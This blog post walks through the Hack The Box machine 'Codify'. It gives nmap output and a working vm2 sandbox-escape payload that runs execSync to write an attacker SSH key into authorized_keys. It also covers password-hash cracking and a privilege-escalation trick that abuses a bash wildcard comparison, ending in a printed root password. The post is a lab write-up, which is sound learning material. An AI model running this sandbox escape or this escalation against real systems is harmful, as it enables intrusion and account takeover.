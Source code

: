 ```yaml
---
layout: post
title:  "[HTB] Codify"
date:   2024-07-03
categories: CTF
---
```


As usual let us start with our nmap scan

---

└─# nmap -vv 10.10.11.239
Starting Nmap 7.94 ( https://nmap.org ) at 2024-08-09 05:07 EDT
Initiating Ping Scan at 05:07
Scanning 10.10.11.239 [4 ports]
Completed Ping Scan at 05:07, 0.17s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 05:07
Completed Parallel DNS resolution of 1 host. at 05:07, 0.05s elapsed
Initiating SYN Stealth Scan at 05:07
Scanning 10.10.11.239 [1000 ports]
Discovered open port 80/tcp on 10.10.11.239
Discovered open port 22/tcp on 10.10.11.239
Discovered open port 3000/tcp on 10.10.11.239
Completed SYN Stealth Scan at 05:07, 1.20s elapsed (1000 total ports)
Nmap scan report for 10.10.11.239
Host is up, received echo-reply ttl 63 (0.081s latency).
Scanned at 2024-08-09 05:07:22 EDT for 2s
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.49 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1003 (40.372KB)

---

Seeing that there is port 80 open, add codify.htb to our /etc/hosts and look at the web application

![alt text](/assets/uploads/htb-codify/image.png)

Seeing that this is a web application that we can test our node.js code, maybe we can also execute a node.js script for a reverse shell such as the one provided here https://gist.github.com/secoats/44b9b42920ac4a825e54e7310303cfdb, and just setup a listener on port 5555. BUT upon trying this, it doesnt work because the module "child_process" is not allowed.

![alt text](/assets/uploads/htb-codify/image-1.png)

So maybe this machine is not that straightforward. Looking more into the web application and we see that it is using vm2 to prevent harmful code being executed on the system. Researching about this revealed a way to bypass the vm2 protection - https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244

So now let us use this "web shell" that we got to insert an ssh public key to the current user's .ssh/authorized_keys so that we can just ssh to the machine as shown below

---

const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('mkdir .ssh ; echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHa14zd5sTen4GB7qgt++IU1jzZR2y9A0OfMHsoVtjAc root@kali" > .ssh/authorized_keys ');
}
`

console.log(vm.run(code));

---

And now we can just connect to it via ssh

![alt text](/assets/uploads/htb-codify/image-3.png)

So investigating more on the machine, we see that there is another user called joshua, so probably we need to get a way to login to his account. Enumerating more on the machine, we see that there is a file in /var/www/contact called tickets.db and if we look at it, we see that it contains joshua's password hash which we can crack locally using john the ripper

![alt text](/assets/uploads/htb-codify/image-2.png)

![alt text](/assets/uploads/htb-codify/image-4.png)

Now that we have joshua's password, we can just login to his account via ssh and get the user flag

![alt text](/assets/uploads/htb-codify/image-5.png)

Looking for privilege escalation pathways, we check his sudo privileges and we see that we can run the /opt/scripts/mysql-backup.sh script

![alt text](/assets/uploads/htb-codify/image-6.png)

Reading closely what this code do, this essentially asks for the db root's password and checks it with the password that can be found on /root/.creds (which we do not have any access to) and if it is correct, it creates a backup directory and backs up the contents of the database.

The issue here is that the comparison that is being used to check if the user entered password is within [[ ]] which is just a partial match based on a pattern rather than a full match. So for example [[ "aa*" == "aaa"]] will return true since the * represents a wildcard. 

Then the script passes the database's password from the /root/.creds file instead of using the password that the user entered as detailed on this line

---

/usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db/gzip

---

With these in mind, we can just run pspy on the machine to monitor the running processes, and run the script and enter the password "****" which will essentially match the password string.

![alt text](/assets/uploads/htb-codify/image-7.png)

![alt text](/assets/uploads/htb-codify/image-8.png)

Now we see that the database's password is "kljh12k3jhaskjh12kjh3" and we can access the database

![alt text](/assets/uploads/htb-codify/image-9.png)

However upon investigating the contents of the database, there seems to not have any content related to the root's password. With this I just tried to change user to root and use the password "kljh12k3jhaskjh12kjh3" and viola!

![alt text](/assets/uploads/htb-codify/image-10.png)
